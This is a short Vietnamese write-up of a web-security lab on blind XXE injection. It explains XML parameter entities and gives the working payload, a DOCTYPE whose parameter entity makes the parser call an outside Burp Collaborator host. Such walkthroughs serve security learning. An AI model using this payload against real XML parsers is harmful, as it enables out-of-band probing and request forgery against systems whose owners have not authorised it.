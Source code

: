 Description: This lab has a “Check stock” feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities. To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Như các lab ở trên thì lổ hổng vẫn sẽ nằm ở Check stock. Mục tiêu là truy cập đến server burp collaborator giống như lab thứ 3. Và lab này block external entity. 

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/b2b9f6d6-2754-43f0-a74c-8733744c68f6)

Lab này đã gợi ý là ta phải sử dụng XML Parameter Entities. Sau 1 hồi gu gồ thì có 1 số thông tin như sau:

  - XML Parameter Entities cũng giống như các thực thể thông thường, Ngoại trừ việc nó được sử dụng bên trong DTD và nằm giữa <!DOCTYPE docname [ và ]> và phải thêm 1 dấu % trước tên thực thể.
  - Trong parameter entity cũng có external và internal entity nhưng ở đây sẽ chỉ bàn về external entity. Trong parameter entity, external entity phải là một cú pháp hợp lệ của dữ liệu XML vì nó sẽ được coi là một DTD. Việc sử dụng parameter entity tương tự như khái niệm về hàm include() trong PHP.

Ví dụ:

```
<!ENTITY % author "<!ELEMENT author EMPTY">
%author;
```

Như vậy payload của ta sẽ được thực hiện như sau:

```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://lmb2bft3amiwsbod6bpzfhrab1hs5lta.oastify.com"> %xxe; ]>
```

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/ecab824e-efb8-47f4-8b6c-5c57148b7278)

Như vậy ta đã hoàn thành được lab4.
